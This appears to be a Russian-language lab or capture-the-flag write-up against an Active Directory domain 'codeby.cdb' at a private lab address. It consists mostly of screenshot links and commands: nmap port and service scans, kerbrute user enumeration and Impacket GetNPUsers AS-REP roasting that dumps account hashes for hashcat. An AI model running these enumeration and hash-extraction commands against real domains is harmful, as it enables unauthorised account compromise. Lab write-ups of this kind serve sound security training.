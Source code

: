 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9d8548d1-1a8f-4b78-bd5a-8fccb3659957)
```
nmap -p- 192.168.2.2 -v 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/dcb6da32-cea4-403c-9397-9a3783c16877)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/af92e839-6787-4485-b58f-b592b4985dbd)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/535cbc99-318b-4b55-9209-95c67fb518d0)

```
nmap 192.168.2.2 -v -sC -sV
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7da0c360-b644-4881-b0e4-283b041dc9d3)

Формируем список пользователей с помощью скрипта:
```
tut script python
```
Получаем такой файл

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c0662a67-eec6-40b9-8fc9-8ba22ac46a3e)

+ добавляем admin, administrator, Administrator, Admin и т.д.

https://spy-soft.net/kerbrute-for-attack-kerberos-active-directory/

https://github.com/ropnop/kerbrute/releases

```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.2 user-hack.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/05796fc8-26cd-4a58-a283-2957d77a9a64)

https://wadcoms.github.io/wadcoms/Impacket-GetNPUsers/
https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py
```
python3 GetNPUsers.py codeby.cdb/ -dc-ip 192.168.2.2 -usersfile user-hack.txt -format hashcat -outputfile user-hashes.txt
```
